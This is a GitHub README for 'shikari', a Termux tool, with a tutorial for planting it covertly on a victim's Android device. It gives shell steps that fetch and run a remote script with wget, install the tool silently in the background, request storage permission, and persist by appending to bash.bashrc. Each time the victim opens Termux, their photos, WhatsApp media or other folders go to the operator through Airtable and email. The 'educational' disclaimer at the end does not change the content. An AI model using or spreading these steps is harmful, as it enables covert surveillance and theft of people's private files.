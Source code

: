 
<h1 align="center">
  <br>
  <a href="#"><img src="https://github.com/Bhai4You/bhai4you/raw/master/shikari.gif" alt=""></a>


## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
Paste below code in your github and save it "shikari.txt"</br>
modify your details under " " or ' '</br>
```
export api="keyamJ*********"
export base='appJ8Pj*****'
export table="hack"
export folder="ADM"
[[ "${#BASH_SOURCE[@]}" -gt "1" ]] && { return 0; }
```

Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music) </br></br>
Now you can change your target folder anytime by changing in your github shikari.txt.</br></br>
When you change it with "Documents" then you will get Documents ! if you change folder name to "Pictures" then you will get Pictures of victim 🌚</br></br>

### Step 5

+ Now add below command in your script.
Example.,

+ Change wget link with your shikari.txt.link
```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ pip install shikari
$ shikari
```

After Complete Process Don't forget to remove "shikari.txt" file
```
cd $HOME
rm -f shikari.txt
```

### Background Process
Add this code in your new "hack.sh" script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="pip install shikari && shikari";
_evalBg "${cmd}";
```
Add "bash hack.sh" in your shikari.txt script instead of pip install shikari...

```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ bash hack.sh
```

You can upload hack.sh on your GitHub and add on victim device by wget command then you can put "bash hack.sh" for background process.
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>


### Error/Problems
Send Mail to this id if you are facing any problems.</br>
Mail : parixit1337@gmail.com
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
